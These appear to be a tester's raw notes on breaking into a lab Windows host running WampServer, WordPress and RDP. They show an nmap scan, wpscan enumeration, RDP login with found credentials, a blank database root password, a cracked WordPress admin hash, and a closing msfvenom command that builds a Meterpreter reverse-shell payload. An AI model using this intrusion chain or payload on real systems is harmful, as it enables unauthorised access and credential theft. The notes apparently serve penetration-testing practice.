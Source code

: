 [*] Nmap: Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-03 08:03 IST             
[*] Nmap: Nmap scan report for ip-192-168-100-50.ap-southeast-1.compute.internal (192.168.100.50)                                                                           
[*] Nmap: Host is up (0.00038s latency).                                              
[*] Nmap: Not shown: 990 closed tcp ports (reset)                                     
[*] Nmap: PORT      STATE SERVICE            VERSION                                  
[*] Nmap: 80/tcp    open  http               Apache httpd 2.4.51 ((Win64) PHP/7.4.26) 
[*] Nmap: 135/tcp   open  msrpc              Microsoft Windows RPC                    
[*] Nmap: 139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn            
[*] Nmap: 445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds                                                                           
[*] Nmap: 3389/tcp  open  ssl/ms-wbt-server?                                          
[*] Nmap: 49152/tcp open  msrpc              Microsoft Windows RPC                    
[*] Nmap: 49153/tcp open  msrpc              Microsoft Windows RPC                    
[*] Nmap: 49154/tcp open  msrpc              Microsoft Windows RPC                    
[*] Nmap: 49155/tcp open  msrpc              Microsoft Windows RPC                    
[*] Nmap: 49156/tcp open  msrpc              Microsoft Windows RPC                    
[*] Nmap: MAC Address: 06:D2:6F:94:05:92 (Unknown)                                    
[*] Nmap: Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

additional scanning:
Found 3307 is open for something

# Apache web server -p80
Wampserver

Server Configuration:
Apache Version:     2.4.51  - Documentation Apache
Server Software:     Apache/2.4.51 (Win64) PHP/7.4.26 - Port defined for Apache: 80
PHP Version:     7.4.26  - Documentation PHP
....

MySQL Version:
    5.7.36 - Port defined for MySQL: 3306
MariaDB Version:
    10.6.5 - Port defined for MariaDB: 3307

![[wampserver.png]]

projects: wordpress --> somewhere else?

add wordpress.local to /etc/hosts to render

Page renders giving theme





Used:
`wpscan --url http://wordpress.local --enumerate p`
 
got back 2 plugins used 
burger-companion
wp-responsive-thumbnail-slider

dirb some interesting dirs


# RDP -p 3389
seems like rdp is enabled
Prbly need credentials to RDP in

`nc -nv 192.168.100.50 3389`
give: `(UNKNOWN) [192.168.100.50] 3389 (ms-wbt-server) open `


xfreerdp /u:mike /p:diamond /v:192.168.100.50
Got a session!!!!!!!!!!!!!!!!!!! 


From wp-config.php
// ** Database settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'root' );

/** Database password */
define( 'DB_PASSWORD', '' );

net users
admin                    Administrator            Guest
mike                     vince


# MariaDB found on -p3307
Connects to it instantly

Cant connect from the kali machine....

phpMyadmin 5.1.1 login page accessible...
Used root:: blank to access the MariaDB worpress database

wordpress admin creds
`admin $P$B.1p.5fiYdFnwttTzSkvT2sl01rlOj0`

cracked the password
`$P$B.1p.5fiYdFnwttTzSkvT2sl01rlOj0:estrella`


msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.100.5 LPORT=1234 -f exe > payloadx86.exe